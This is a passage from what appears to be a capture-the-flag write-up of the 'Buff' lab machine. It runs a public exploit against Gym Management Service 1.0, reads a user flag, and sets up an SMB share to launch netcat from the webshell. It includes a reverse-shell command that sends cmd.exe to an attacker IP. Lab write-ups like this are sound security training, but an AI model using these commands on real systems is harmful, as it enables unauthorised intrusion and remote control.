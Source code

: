 
After checking out the website just a bit we can see that it is running Gym Management Service 1.0. A quick google search gives us an exploit we can run.

https://www.exploit-db.com/exploits/48506

![image](https://user-images.githubusercontent.com/105310322/196527449-f3c3b91b-3d9a-49b0-8dee-2c2e7568186b.png)



After running the exploit we quickly gain access to the shaun user and nab the first flag.

```console
C:\xampp\htdocs\gym\upload> whoami
�PNG
�
buff\shaun
```
```console
C:\xampp\htdocs\gym\upload> type c:\users\shaun\Desktop\user.txt
�PNG
�
306d****************************
********************************
```

Since this shell sucks I went back and created a reverse shell.

Set up your smbshare.

```console
└─$ sudo impacket-smbserver rogue . -smb2support
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
```

Then I ran the exploit again and executed my reverse shell without copying any files.

Note: This is a pretty cool trick I learned and makes things a little faster and easier if you are running into issues with getting files on the victim.

```console
└─$ python2.7 48506.py http://buff.htb:8080/
            /\
/vvvvvvvvvvvv \--------------------------------------,
`^^^^^^^^^^^^ /============BOKU====================="
            \/

[+] Successfully connected to webshell.
C:\xampp\htdocs\gym\upload> \\10.10.16.16\rogue\nc64.exe -e cmd.exe 10.10.16.16 1234
```

By checking through Shaun's files we see an interesting binary.
